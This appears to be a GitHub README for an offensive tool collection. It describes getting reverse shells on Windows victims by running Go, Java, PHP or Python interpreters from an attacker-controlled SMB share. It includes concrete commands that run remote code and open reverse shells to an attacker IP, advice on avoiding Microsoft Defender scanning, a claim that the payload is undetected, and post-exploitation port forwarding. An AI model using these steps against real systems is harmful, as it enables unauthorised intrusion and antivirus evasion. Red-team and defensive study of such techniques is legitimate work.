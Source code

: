 # One-Shot-Shellz
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This is my collection of ways to Execute Reverse Shells on a Victim Windows Host not using PowerShell or touching disk with an .exe.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## <a name="Go"></a>The process is extremely simple - Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## Defender

According to the Windows Documentation, Defender wont scan User-Level Mapped Shares i.e if you use `net use g: \\192.168.59.60\Go /USER:user Password!` it wont scan and therefore wont attempt to delete the files on the remote share. It can however pick a script up when attempting to execute. Network Shares are scanned. Just something to keep in mind. https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-advanced-scan-types-microsoft-defender-antivirus?view=o365-worldwide

![image](https://user-images.githubusercontent.com/130473605/235164338-683ff6a4-e68d-4b53-9d40-d1a274310c1f.png)

## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example I have a HTTP Server listening on localhost (My Nessus Server in this case port 8834)

![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

You can now access the Internal HTTP Server on your attacking machine

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

